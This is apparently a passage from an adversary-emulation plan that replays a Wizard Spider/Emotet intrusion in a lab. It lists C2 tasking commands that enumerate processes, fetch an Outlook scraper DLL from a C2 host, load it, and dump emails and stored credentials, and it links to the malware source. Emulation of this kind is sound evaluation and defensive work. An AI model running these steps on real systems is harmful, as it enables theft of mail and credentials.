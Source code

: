 Lastly, Wizard Spider executes the Outlook-scraper to dump emails and contacts.

One of the emails contains credentials for another user, <bill@oz.local>, which will be used in the next step.

Download Info:

```
URL (HTTP GET): http://192.168.0.4:80/modules

Download occurs over HTTP. All traffic is AES encrypted and base64 encoded in transit.

File Write:     C:\Windows\SysWOW64\Outlook.dll
```

---

### ☣️ Procedures

Enumerate processes.

```bash
# Emotet has been observed enumerating local processes.[17]

./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/hostdiscovery.cpp#L172)

Download Outlook Scraper DLL from C2 channel (192.168.0.4:80 / HTTP) to current working directory.

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L114)

Load Outlook Scraper DLL into emotet's address space via call to LoadLibraryW() and GetProcAddress().

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/loadoutlookscraper.cpp#L16)

Scrape email content from Outlook inbox via _popen call to PowerShell.

```bash
# Emotet has been observed leveraging a module that scrapes email data from Outlook.[3]

# Emotet has been observed leveraging a module that retrieves passwords stored on a system for the current logged-on user. [7][3]

./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```

[Source Code](../../Resources/Emotet/OutlookScraper/OutlookScraper/outlook.cpp#L64)

[_popen info, because I've never heard of it either](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/popen-wpopen?view=msvc-160)
